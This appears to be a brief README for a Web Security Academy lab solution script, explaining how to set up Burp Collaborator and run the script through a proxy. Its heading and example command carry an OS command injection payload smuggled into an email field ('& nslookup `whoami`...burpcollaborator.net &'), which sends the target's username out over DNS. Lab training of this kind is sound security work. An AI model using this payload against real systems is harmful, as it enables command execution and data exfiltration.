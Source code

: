 # How to run script.py

### & nslookup \`whoami\`8y719ezk9ecxgtwb8ln2vgk8yz4pse.burpcollaborator.net &

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

Proxy:
- python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test@test.com& nslookup \\\`whoami\\\`.8y719ezk9ecxgtwb8ln2vgk8yz4pse.burpcollaborator.net &" -p 127.0.0.1:8080

